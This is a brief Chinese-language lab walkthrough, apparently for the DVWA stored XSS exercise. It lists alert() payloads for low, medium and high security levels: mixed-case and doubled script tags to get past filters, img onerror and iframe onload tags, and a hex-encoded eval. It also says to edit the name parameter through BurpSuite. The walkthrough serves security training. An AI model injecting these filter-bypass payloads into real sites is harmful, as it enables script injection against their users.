 # XSS (Stored)

> ## low

最简单的xss

```javascript
<script>alert('low')</script>
```

<br>

> ## medium

使用BurpSuite抓包，修改name参数

1.使用大小写绕过：

```js
<ScRipt>alert(/medium/);</ScRipt>
```



2.使用双写绕过：

```js
<scr<script>ipt>alert('xss');</script>
```



3.使用非 script 标签

img标签：

```
<img src=1 onerror=alert('medium')>

<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

iframe标签：

```
<iframe onload=alert(1)>
```

<br>

> ## high
>

使用非 script 标签注入

使用BurpSuite抓包，修改name参数

img标签：

```
<img src=1 onerror=alert('xss')>

<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

iframe标签：

```
<iframe onload=alert(1)>
```

<br>



更多方法待补充